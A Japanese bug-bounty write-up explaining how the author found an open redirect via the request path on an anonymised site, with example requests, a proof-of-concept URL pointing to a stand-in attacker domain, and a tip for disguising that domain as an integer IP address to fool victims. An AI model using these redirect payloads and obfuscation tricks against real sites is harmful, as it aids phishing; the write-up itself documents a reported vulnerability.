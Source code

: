 # Request-URIのパスからのオープンリダイレクト 実践編

<p class="modest" align="left">Dec 17, 2018</p>

---

とある企業の非公開報奨金制度で[Request-URIのパスからのオープンリダイレクト](/2018/open_redirect_via_path.md)を発見した。その検出に至るまでの手順が興味深く、HackerOneのレポートにも類似の挙動は見当たらなかったため、詳細をまとめておく。

対象サイトのトップにアクセスした際の正常なレスポンスは以下である。パスの値によるレスポンスの変化を手掛かりに脆弱性を発見した。

hxxps://www[.]example.com/

```http
HTTP/1.1 200 OK
...
<title>Example Domain</title>
```

## 検出手順

まず、任意のパスに `GET /xxx HTTP/1.1` でリクエストすると、トレイリングスラッシュを追加するリダイレクトが発生する。

hxxps://www[.]example.com/xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /xxx/
```

つぎに、ドメイン直後のスラッシュを2つにして `GET //xxx HTTP/1.1` でリクエストするも、レスポンスに変化は見られない。

hxxps://www[.]example.com//xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /xxx/
```

しかし、スラッシュを3つにして `GET ///xxx HTTP/1.1` でリクエストすると、トップへのリダイレクトが発生する。

hxxps://www[.]example.com///xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /
```

また、トレイリングスラッシュを追加して `GET ///xxx/ HTTP/1.1` でリクエストすると、トップのコンテンツが返る。

hxxps://www[.]example.com///xxx/

```http
HTTP/1.1 200 OK
...
<title>Example Domain</title>
```

さらに、トレイリングスラッシュの直後に `zzz` を追加すると、上位階層の `xxx` を無視したリダイレクトとなる。

hxxps://www[.]example.com///xxx/zzz

```http
HTTP/1.1 301 Moved Permanently
...
Location: /zzz/
```

そこで、`zzz` の直前のスラッシュを2つにしてリクエストすると、レスポンスのLocationヘッダの先頭に `//` を挿入できた。

hxxps://www[.]example.com///xxx//zzz

```http
HTTP/1.1 301 Moved Permanently
...
Location: //zzz/
```

## 実証

Locationヘッダに `//` から始まるスキームを省略した形式の絶対パスを挿入することで、外部サイトへのリダイレクトが発生する。

hxxps://www[.]example.com///xxx//evil.com

![open_redirect](/assets/2018/practical_open_redirect_via_path/open_redirect.png)

上記のURLには攻撃者の所有するドメインが含まれているため、警戒心の強い被害者は不信感を抱く可能性が高い。固定IPアドレスが振られたドメインであれば整数変換により難読化できる。例えば `evil.com` のIPアドレス `66.96.146.129` は `1113625217` に変換できる<sup id="f1">[¹](#fn1)</sup> <sup id="f2">[²](#fn2)</sup>。パスに含まれる階層 `xxx` は任意の文字列に置き換えられるため、攻撃者は対象サイトの特性に合わせて以下のようなURLに偽装することで被害者を誘導できるだろう。

hxxps://www[.]example.com///articles//1113625217/index.html

```http
HTTP/1.1 301 Moved Permanently
...
Location: //1113625217/index.html/
```

## 所感

Request-URIのパスからの入力に起因する脆弱性の検出は、サイト仕様の把握やアカウント作成などの事前準備が不要なため、気軽に調査を開始できる。今回は `//xxx` と `///xxx` のレスポンスの差異に気付けたため、その挙動をオープンリダイレクトにつなげられた。気軽に何も考えずにスラッシュを3つ入力したことが要因となった。

発見した脆弱性はサイト運営会社の報奨金制度へ報告した。Severity（深刻度）はLowと評価されたため報奨金は$100〜$500になる見込み。さらにスコープ内の他4つのドメインでも同様の脆弱性を発見し、それぞれ認定されている。少額な脆弱性も横展開できるとおいしい。

---

<sup id="fn1">[¹](#f1)</sup> DNSの逆引きができないため、実際には `1113625217` にアクセスしても `evil.com` は表示されない。一例として記載する。  
<sup id="fn2">[²](#f2)</sup> 変換後のIPアドレスは[How to Obscure Any URL](http://www.pc-help.org/obscure.htm)を参考に `66 * 256 + 96 = * 256 + 146 = * 256 + 129 =` で求めた。
